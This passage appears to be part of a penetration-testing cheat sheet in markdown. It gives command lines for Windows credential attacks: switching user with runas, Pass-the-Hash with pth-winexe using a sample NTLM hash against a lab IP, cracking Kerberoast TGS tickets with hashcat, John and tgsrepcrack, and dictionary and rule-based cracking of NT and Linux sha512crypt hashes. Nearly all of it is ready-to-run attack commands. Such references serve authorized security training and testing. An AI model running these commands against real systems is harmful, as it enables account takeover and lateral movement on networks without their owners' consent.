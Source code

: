 You can crack these following [cracking NT hashes](#cracking-nt-hashes) and then change user with Windows [Runas](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490994(v=technet.10)?redirectedfrom=MSDN) command:
```cmd
C:\> runas /profile /user:bob /password:BOBIS2C
```
    
### Passing the Hash in Windows
The Pass-the-Hash (PtH) technique allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a clear text password. 
- This is possible because NTLM/LM password hashes are not salted and remain static between sessions. 
- Moreover, if we discover a password hash on one target, we cannot only use it to authenticate to that target, we can use it to authenticate to another target as well, as long as that target has an account with the same username and password.

```sh
kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
### Cracking TGS
```sh
#Hashcat
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
kali@kali:~$ hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
# John
kali@kali:~$ john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
# tgsrepcrack
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
Ref: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#kerberoast
### Password Cracking
#### Cracking NT hashes
Brute force cracking using John the Ripper
```sh
kali@kali:~$ sudo john hash.txt --format=NT
```
Dictionary cracking using John the Ripper
```sh
kali@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```
Cracking using password mutation rules
```sh
kali@kali:~$ john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```
#### Cracking Linux-based hashes
Crack it using john:
```sh
kali@kali:~$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
